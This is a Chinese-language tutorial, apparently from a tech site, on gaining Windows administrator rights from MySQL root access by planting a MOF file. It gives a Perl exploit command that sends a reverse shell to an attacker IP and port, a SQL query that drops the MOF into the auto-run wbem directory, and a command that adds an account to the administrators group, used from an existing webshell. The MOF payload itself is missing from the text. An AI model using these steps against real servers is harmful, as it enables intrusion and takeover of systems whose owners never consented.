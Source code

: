 Microsoft 建议您到存储库编译 MOF 文件使用前两种方法。也就是运行 Mofcomp.exe 文件，或使用 IMofCompiler::CompileFile 方法。第三种方法仅为向后兼容性与早期版本的 WMI 提供，并因为此功能可能不会提供在将来的版本后，不应使用。注意使用MOF方法提权的前提是当前Root帐号可以复制文件到%SystemRoot%\System32\Wbem\MOF目录下，否则会失败!

## **一、漏洞利用方法分析**

该漏洞的利用前提条件是必须具备mysql的root权限，在Kingcope公布的0day中公布了一个pl利用脚本。

```perl
perl mysql_win_remote.pl 192.168.2.100 root "" 192.168.2.150 5555
```

192.168.2.100为mysql数据库所在服务器，mysql口令为空，反弹到192.168.2.150的5555端口上。

1.生成nullevt.mof文件

将以下代码保存为nullevt.mof文件：

2.通过Mysql查询将文件导入

执行以下查询语句，将上面生成的nullevt.mof导入到c:\windows\system32\wbem\mof\目录下在windows7中默认是拒绝访问的。导入后系统会自动运行，执行命令。

```sql
select load_file('C:\\RECYCLER\\nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';
```



## **二、实战利用**

**1.实验环境**

本次实验环境为Windows2003+Apache+PHP，已经拥有Webshell权限。

**2.上传文件到可写目录**

将nullevt.mof文件上传到服务器可写目录，例如C:\RECYCLER\，如图5-4所示。

[![技术干货：MySQL数据库Root权限MOF方法提权研究](http://s1.51cto.com/wyfs02/M01/89/9A/wKiom1gX-qqjXew4AACKSax21YE067.jpg-wh_651x-s_69971220.jpg)](http://s1.51cto.com/wyfs02/M01/89/9A/wKiom1gX-qqjXew4AACKSax21YE067.jpg-wh_651x-s_69971220.jpg)

上传文件nullevt.mof

**3.执行命令**

配置好中国菜刀，然后通过数据库管理，执行查询命令，在执行查询命令前需要先选择一下数据库，然后将以下代码复制到查询语句输入框中，

``` sql
select load_file('C:\\RECYCLER\\nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';
```

执行查询命令

**4.查看执行结果**

执行完毕后需要修改添加用户命令为将用户添加到管理员组，即`“net.exe localgroup administrators admin/add\”`，再次上传并查询，通过net user查看，果然admin已被添加到系统中。
